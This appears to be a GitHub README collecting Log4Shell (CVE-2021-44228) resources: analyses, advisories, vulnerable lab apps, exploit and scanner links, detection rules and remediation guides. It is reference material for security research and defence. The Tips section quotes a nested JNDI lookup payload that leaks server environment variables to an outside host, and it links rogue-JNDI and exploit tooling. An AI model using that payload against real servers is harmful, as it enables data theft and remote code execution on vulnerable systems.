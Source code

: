 # TL;DR

# Technical analysis
- [Log4j Analysis: More JNDI Injection](https://y4y.space/2021/12/10/log4j-analysis-more-jndi-injection/)
- [Rapid7 analysis](https://attackerkb.com/topics/in9sPR2Bzt/cve-2021-44228-log4shell/rapid7-analysis): Includes PoCs for Apache Struts2, VMWare VCenter, Apache James, Apache Solr, Apache Druid, Apache JSPWiki and Apache OFBiz

# Advisories
- [Apache Log4j Security Vulnerabilities](https://logging.apache.org/log4j/2.x/security.html)
- [CVE-2021-44228 on NIST](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

# Videos
- [What do you need to know about the log4j (Log4Shell) vulnerability?](https://www.youtube.com/watch?v=oC2PZB5D3Ys) (First 15 min detail offensive side pretty well)
- [Short demo by @MalwareTechBlog](https://www.youtube.com/watch?v=0-abhd-CLwQ)
- [CVE-2021-44228 - Log4j - MINECRAFT VULNERABLE! (and SO MUCH MORE)](https://www.youtube.com/watch?v=7qoPDq41xhQ)
- [Log4Shell, The Worst Java Vulnerability in Years](https://www.youtube.com/watch?v=m_AkCbFc8DM)

# Intentionally vulnerable apps
- [PentesterLab challenge](https://pentesterlab.com/exercises/log4j_rce/course)
- [BugHuntr.io scenario](https://twitter.com/BugHuntrIo/status/1469298538593067012)
- [christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app)

# Tools & Exploits
- [tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce](https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce)
- [Thinkst Canary](https://twitter.com/thinkstcanary/status/1469439743905697797)
- [Huntress Log4Shell Tester](https://log4shell.huntress.com)
- [log4shell.nse](https://github.com/righel/log4shell_nse): Nmap NSE script that injects a Huntress/CanaryTokens/custom log4shell payload in HTTP requests described by JSON templates
- [@SilentSignalHU’s Log4Shell Scanner as a Burp extension](https://twitter.com/Burp_Suite/status/1470418532475314177) & [silentsignal/burp-log4shell](https://github.com/silentsignal/burp-log4shell) (Burp extension)
- [Log4Shell detection to ActiveScan++](https://twitter.com/albinowax/status/1469258291616403457)
- [fullhunt/log4j-scan](https://github.com/fullhunt/log4j-scan)
- [Burp Bounty Pro Profile](https://twitter.com/BurpBounty/status/1469249786092085249)
- [whwlsfb/Log4j2Scan](https://github.com/whwlsfb/Log4j2Scan) (Passive Scanner plugin for Burp)
- [Semgrep rules](https://github.com/returntocorp/semgrep-rules/tree/develop/java/log4j/security)
- [CodeQL query](https://github.com/cldrn/codeql-queries/blob/master/log4j-injection.ql)
  - <https://twitter.com/pwntester/status/1469307027067396106>

- [log4shell-detector](https://github.com/Neo23x0/log4shell-detector)
- [Nuclei template](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-44228.yaml)

# Tips
- The Log4J formatting is nestable which means payloads like `${jndi:ldap://${env:user}.xyz.collab.com/a}` will leak server side env vars! [Source](https://twitter.com/_StaticFlow_/status/1469358229767475205)
- [Tutorial on setting up RogueJDNI](https://twitter.com/ITSecurityguard/status/1469347404986077185)
- [Class path is useful information to have to know what gadgets should be available or where you need to look for some to get rce.](https://twitter.com/jstnkndy/status/1469752457618202624)

# WAF bypasses

# Mega threads
- [Reddit mega thread curated by NCC Group](https://www.reddit.com/r/blueteamsec/comments/rd38z9/log4j_0day_being_exploited/)

# Remediation
- [Guide: How To Detect and Mitigate the Log4Shell Vulnerability (CVE-2021-44228)](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/)

# Some impacted apps/vendors
- [YfryTchsGD/Log4jAttackSurface](https://github.com/YfryTchsGD/Log4jAttackSurface)
  - <https://twitter.com/bl4sty/status/1469259842112086024>
  - [Log4j zero-day gets security fix just as scans for vulnerable systems ramp up](https://therecord.media/log4j-zero-day-gets-security-fix-just-as-scans-for-vulnerable-systems-ramp-up/)
- [20211210-TLP-WHITE_LOG4J.md](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592)
- [ZAP](https://www.zaproxy.org/blog/2021-12-10-zap-and-log4shell/)
- [Ingenuity, the Mars 2020 Helicopter mssion](https://twitter.com/TheASF/status/1400875147163279374)
- [VCenter](https://twitter.com/w3bd3vil/status/1469814463414951937)
- [Ghidra](https://twitter.com/zhuowei/status/1469186818549719042)
- [Apache JAMES SMTP server](https://twitter.com/dlitchfield/status/1469809966785564675)
